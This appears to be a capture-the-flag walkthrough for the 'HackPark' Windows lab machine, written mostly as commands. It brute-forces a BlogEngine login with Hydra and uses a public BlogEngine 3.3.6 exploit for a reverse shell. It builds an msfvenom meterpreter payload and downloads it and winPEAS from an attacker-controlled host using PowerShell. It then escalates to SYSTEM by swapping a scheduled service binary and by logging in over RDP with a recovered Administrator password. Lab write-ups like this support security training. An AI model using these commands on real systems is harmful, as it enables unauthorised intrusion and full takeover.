

hackpark
HackPark
What is the name of the joker ?
Download the image. Then search the image by uplading it to google image search.
Brute Force the Login Page using Hydra:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.229.129 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=75frL29Jq77UAS5O6waIAgvpqUOtcagLXmAs8ntJGK3DU6IXmkigWCYXlctGEb2O2G%2BjF5IteFOYg9pWj2Mqq0iJxVrJkUODXhUuOJ8sbmce0tBELKmw72s8I9JOUKGp6Z87DHYCwVZSIB1k8QZzxc%2BDfuwsKdSogudxveYfMl9Xl9WN&__EVENTVALIDATION=kEqTpl3NK636vrrQoIGLwaBPeMNLrYgB5eLO2J3lhWCriHgdsDifHhxinhhtmfiV8p%2Fdx0IPiK0B5uO5gDR8tsJcKtQEVnqRqGuba%2BcImoxZrFAdTL%2FfNB4nBipBifGFewi7YAqZ8JhkThaZTfMnUpVOTH8tU0jzP03GuC7bHCt9G9K1&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv

Check the section [Cryptography-------->hydra] for more details.
After login we find the version of application : Blogengine 3.3.6
searchsploit blogengine

We will use the 46353.cs
searchsploit -m aspx/webapps/46353.cs
Read the file. (And Finish the tasks)
1.Start Netcat listener
2.Change the IP & Port for reverse connection inside the file.
3.Rename the file to the one specified in the file (PostView.ascx)
4.Follow the guide for upload
5.Finally follow the guide for exploitation
Once we have reverse shell. We need to switch to meterpreter for better control.
Shell Switch
Now, we switch to meterpreter shell for easier prevelege escalation.
we make a meterpreter payload using msfvenom.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.72.31 LPORT=8888 -a x86 --encoder x86/shikata_ga_nai -f exe -o hackpark_revshell.exe
We host this using python webserver.
Download using the last Powershell technique or any other.
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.72.31:8000/hackpark_revshell.exe','hackpark_revshell.exe')"
Start Listner in msfconsole:
use multi/handler
SET PAYLOAD windows/meterpreter/reverse_tcp
SET LHOST 10.11.72.31
SET LPORT 8888
Once setup → Run the exploit in the shell we have.
Privilege Escalation:
Now for Privelege Escalation there are 2 ways.
Get winPEASx64.exe in the machine using meterpreter upload or powershell download.
powershell -c Invoke-WebRequest -Uri http://10.11.72.31/THM_WinPrivEsc_Tools/winPEASx64.exe -OutFile winPEASx64.exe
Run the executible winPEASx64.exe
Way-1
In stored credentials we find the credential of Administrator. (4q6XvFES7Fdxs)
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.229.129 /u:administrator /p:4q6XvFES7Fdxs
We get direct RDP access to machine with Administrator account.
We get the user and root flags.
Way-2
We check the service WindowsScheduler in hope that it allows us to run our binaries.
We check the C:/Program Files (x86)/WindowsScheduler/events Folder and check the logs.
We find that Message.exe which has full access for everyone is run by system every 30 secs.
We rename the Message.exe to Message.bak
Finally, we rename our previously crafted reverse shell to Message.exe and put it in that folder.
We get ready in our multi/handler..
We receive yet another session from the same payload, but this time it is owned by NT Authority/SYSTEM.
We get the user and root flags.
Thanks !!